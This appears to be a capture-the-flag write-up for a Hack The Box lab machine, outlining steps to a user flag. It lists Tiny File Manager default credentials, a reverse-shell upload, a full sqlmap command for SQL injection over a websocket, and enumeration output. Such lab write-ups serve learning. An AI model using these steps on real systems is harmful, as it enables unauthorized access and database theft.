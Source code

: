 User FLAG
-----

1. Scan target
2. Enter port 80
3. Add dns entry to /etc/hosts
4. Enumerate directories
5. Find tinyfilemanager
6. Find credentials
7. Login to tinyfilemanager
8. Upload reverse shell
9. Enumerate machine
10. Found another host from the nginx configuration
11. Explore application
12. Create an account
13. Login with that account
14. Check ticket part
15. Try server-side-template-injection (nope)
16. Try sql injection with websocket url (sqlmap)
17. Obtain DB names
18. Obtain user to SSH
19. Get user flag

## Info

Nothing at local/session storage -- not relevant
Nothing in the source code -- not relevant in first app

There is a path /tiny which uses tinyfilemanager -- yes

Credentials
Default username/password: admin/admin@123 -- yes

Expressjs running on new hostname -- yes
Set-Cookie: connect.sid=s%3AW6OeVgCFtvL35TpGKSPBD4iY3_0S7OU2.ITMDSN4vKobEvEKQAB4Juf9QHkydF1a6A5Wea8TVlwI; -- not relevant

Found this code in the source -- yes

```js
var ws = new WebSocket("ws://soc-player.soccer.htb:9091"); // We can use this later!
window.onload = function () {

var input = document.getElementById('id');

function sendText() {
    var msg = input.value;
    if (msg.length > 0) {
        ws.send(JSON.stringify({
            "id": msg
        }))
    }
    else append("????????")
}
}

ws.onmessage = function (e) {
    append(e.data)
}

function append(msg) {
    let p = document.querySelector("p");
    p.textContent = msg
}
```

As we can see the payload sends an id which is the message.
After this we can scan it with sqlmap sending an id

```bash
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 --
level 5 --risk 3 --batch
```

Created `sqlmap.log`

At this point we have the db name, we can dump it with sqlmap too, and there we have ssh user to obtain user flag.

### Inside machine

Ports -- not relevant
33060
3306
80
53
22
3000
9091

Versions -- not relevant
mysql  Ver 8.0.31-0ubuntu0.20.04.2 for Linux on x86_64 ((Ubuntu))
Sudo version 1.8.31
Linux soccer 5.4.0-135-generic

SGID -- not relevant
daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)

Routes -- not relevant
/usr/lib/mysql/plugin/component_mysqlbackup.so
/etc/mysql/debian.cnf
/data                                                                                     
/vagrant
/snap/core20/1695/etc/cloud/cloud.cfg

-- yes
```bash
ls -al /etc/nginx/sites-enabled
total 8
drwxr-xr-x 2 root root 4096 Dec  1  2022 .
drwxr-xr-x 8 root root 4096 Nov 17  2022 ..
lrwxrwxrwx 1 root root   34 Nov 17  2022 default -> /etc/nginx/sites-available/default
lrwxrwxrwx 1 root root   41 Nov 17  2022 soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
```

-- not relevant
From '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user              = mysql                                                                                                     
Found readable /etc/mysql/my.cnf                                                                                                                                                    
!includedir /etc/mysql/conf.d/                                                                                                                                                      
!includedir /etc/mysql/mysql.conf.d/q

## Versions

OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
nginx 1.18.0
Tiny File Manager 2.4.3
back-end DBMS: MySQL >= 5.0.12

## Services

xmltec-xmlmail

## Links

- https://tinyfilemanager.github.io/
- https://github.com/sqlmapproject/sqlmap